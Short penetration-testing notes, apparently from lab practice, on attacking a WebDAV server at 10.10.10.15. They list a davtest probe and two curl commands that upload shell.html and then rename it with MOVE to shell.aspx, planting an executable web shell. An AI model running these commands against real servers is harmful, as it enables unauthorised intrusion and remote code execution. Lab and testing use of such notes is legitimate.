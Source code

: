 # webdav

## davtest

- test url for webdav: `davtest -url http://10.10.10.15`

## curl

- upload: `curl -v -T shell.html http://10.10.10.15/shell.html`

- move: `curl -v -X MOVE --header 'Destination:http://10.10.10.15/shell.aspx' http://10.10.10.15/shell.html`


